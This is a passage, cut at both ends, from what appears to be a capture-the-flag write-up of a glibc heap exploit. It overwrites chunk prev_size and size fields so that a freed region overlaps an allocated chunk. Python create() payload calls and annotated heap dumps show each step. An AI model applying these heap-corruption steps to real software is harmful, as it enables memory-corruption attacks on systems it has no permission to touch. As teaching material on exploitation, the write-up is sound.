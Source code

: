 We overwrote C's header with `prev_size = 0xF0` and `size = 0x40`. Obviously, `prev_size` is invalid for now, but becomes valid later.

Then, we allocate chunks in Chunk A:
```py
  create(1, 0, 0, b"B"*0x18 + p32(0xF1))
```

Heap looks as follows:
```txt
# Chunk A1 (alloced)
0x560d76401000: 0x0000000000000000      0x0000000000000021
0x560d76401010: 0x4242424242424242      0x4242424242424242
# Chunk A2 (unsorted) (system assumes A2+B is a single chunk with size 0xF0)
0x560d76401020: 0x4242424242424242      0x00000000000000f1 # OVERWRITTEN
0x560d76401030: 0x00007fcf2c019ce0      0x00007fcf2c019ce0
0x560d76401040: 0x0000000000000000      0x0000000000000000
0x560d76401050: 0x0000000000000000      0x0000000000000000
0x560d76401060: 0x0000000000000000      0x0000000000000000
0x560d76401070: 0x0000000000000000      0x0000000000000000
0x560d76401080: 0x0000000000000000      0x0000000000000000
0x560d76401090: 0x0000000000000000      0x0000000000000000
0x560d764010a0: 0x0000000000000000      0x0000000000000000
0x560d764010b0: 0x0000000000000000      0x0000000000000000
0x560d764010c0: 0x0000000000000000      0x0000000000000000
0x560d764010d0: 0x0000000000000000      0x0000000000000000
0x560d764010e0: 0x0000000000000000      0x0000000000000000
# Chunk B (alloced)
0x560d764010f0: 0x00000000000000d0      0x0000000000000020
0x560d76401100: 0x4141414141414141      0x4141414141414141
# Chunk C (fastbin)
0x560d76401110: 0x00000000000000f0      0x0000000000000040
0x560d76401120: 0x0000000560d76401      0x0000000000000000
0x560d76401130: 0x0000000000000000      0x0000000000000000
0x560d76401140: 0x0000000000000000      0x0000000000000000
# [!] tcache
0x560d76401150: 0x0000000000000000      0x0000000000000291
0x560d76401160: 0x0000000000000000      0x0000000000000000
```

Chunk A1 and A2 are allocated from Chunk A. We overwrote A2's header with `size = 0xF0` and `prev_in_use` set. Now, `prev_size` of Chunk C became valid, which means that **A2+B becomes a valid prev chunk of C**.

Finally, we allocate a chunk of size `0xD0`, **which is allocated from `A2+B` in unsorted bins**:
```py
  create(2, 0, 0xC0, "C" * 0x20)
```

This is where the magic happens. Heap looks as follows:
```txt
# Chunk A1 (alloced)
0x55942f65c000: 0x0000000000000000      0x0000000000000021
0x55942f65c010: 0x4242424242424242      0x4242424242424242
# Chunk A2A (alloced)
0x55942f65c020: 0x4242424242424242      0x00000000000000d1
0x55942f65c030: 0x4343434343434343      0x4343434343434343
0x55942f65c040: 0x4343434343434343      0x4343434343434343
0x55942f65c050: 0x0000000000000000      0x0000000000000000
0x55942f65c060: 0x0000000000000000      0x0000000000000000
0x55942f65c070: 0x0000000000000000      0x0000000000000000
0x55942f65c080: 0x0000000000000000      0x0000000000000000
0x55942f65c090: 0x0000000000000000      0x0000000000000000
0x55942f65c0a0: 0x0000000000000000      0x0000000000000000
0x55942f65c0b0: 0x0000000000000000      0x0000000000000000
0x55942f65c0c0: 0x0000000000000000      0x0000000000000000
0x55942f65c0d0: 0x0000000000000000      0x0000000000000000
```